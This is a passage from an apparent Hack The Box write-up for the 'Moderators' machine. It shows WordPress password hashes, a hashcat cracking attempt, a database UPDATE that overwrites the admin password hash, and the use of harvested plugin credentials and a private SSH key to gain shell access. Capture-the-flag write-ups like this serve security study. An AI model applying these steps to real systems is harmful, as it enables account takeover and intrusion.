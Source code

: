 We're unable to crack any of the hashes
```bash
➜  moderators cat wp.hash                                                      
admin:$P$BXasOiM52pOUIRntJTPVlMoH0ZlntT0
lexi:$P$BZ0Fj92qgnvg4F52r3lpwHejcXag461
➜  moderators hashcat -a0 -m400 wp.hash /usr/share/wordlists/rockyou.txt --user
```

Instead we investigate the possibility of changing the password for user `admin`. 
From the site [useotools.com](https://www.useotools.com/wordpress-password-hash-generator/output) we write wanted password and are returned both the hash and also the SQL Query needed to update the table.

![[/assets/images/htb-writeup-moderators/moderators10.png]]

```bash
MariaDB [wordpress]> UPDATE `wp_users` SET `user_pass` = '$P$Butw21NZp/bVFKSgE6gbBKtLjkl3tQ/' WHERE user_login = 'admin';
Query OK, 1 row affected (0.002 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [wordpress]> select * from wp_users;
[... snip ...]
|  1 | admin      | $P$Butw21NZp/bVFKSgE6gbBKtLjkl3tQ/ 
```

Set up a new SSH tunnel and login through `http://127.0.0.1:8080/wp-login.php`. Trying to login we're forwarded to `http://moderators.htb:8080/xxx` and trying to edit `moderators.htb` to `127.0.0.1` invalidate the login. So edit `/etc/hosts` and add `moderators.htb` to `127.0.0.1`.

Try to login again and everything works as intended:
![[/assets/images/htb-writeup-moderators/moderators11.png]]


### Step 2
At the bottom of the nav bar we find the second plugin _"PWDMS"_, check it out and we find the credentials `carl:Carl@thebest**` as well as `john`'s private SSH key..

![[/assets/images/htb-writeup-moderators/moderators12.png]]

Copy the private key and re-format it, myself I use [samltool.com](https://www.samltool.com/format_privatekey.php) for this purpose. 

```bash
➜  moderators vim john-id_rsa 
➜  moderators chmod 400 john-id_rsa               
➜  moderators ssh john@10.10.11.173 -i john-id_rsa
john@moderators:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),1002(moderators)
```

Doing some manual enumeration as `john` we find internal conversation logs talking about password policies and vbox etc:
```bash
john@moderators:~/stuff/exp$ strings *
```
